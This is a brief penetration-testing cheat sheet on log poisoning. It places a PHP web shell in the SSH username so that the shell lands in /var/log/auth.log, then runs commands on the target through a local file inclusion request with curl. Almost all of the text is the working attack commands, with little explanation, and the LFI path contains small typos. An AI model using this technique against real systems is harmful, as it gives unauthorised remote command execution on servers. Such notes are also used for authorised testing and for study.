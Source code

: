 # Log Poisoning



**Scenario:**

Ports 22 & 80

can view /var/log.auth.log on port 80

```
ssh "<?php echo system($_GET['cmd']);?>"@TARGETIPADDRESS
```

Call the webshell through the viewable log with in this case is viewable by LFI

Below view working directory, current user and lists contents of directory

```
curl 'http://TARGETIPADDRESS/index.php?file=%2fcar%2flog%2fauth.log&cmd=pwd;id;ls%20-lah'
```



